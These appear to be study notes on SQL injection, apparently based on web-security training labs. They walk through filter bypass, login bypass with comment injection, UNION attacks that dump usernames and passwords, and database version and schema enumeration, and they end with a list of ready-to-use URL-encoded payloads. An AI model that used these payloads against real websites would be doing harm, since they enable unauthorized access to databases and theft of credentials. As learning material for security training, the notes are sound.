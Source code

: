 # **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27--]
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 

### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 

### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` 
`' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 
`SELECT * FROM information_schema.tables` -- what DB table exist
`SELECT * FROM v$version` -- Oracle version 

### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--`
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` 
`'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
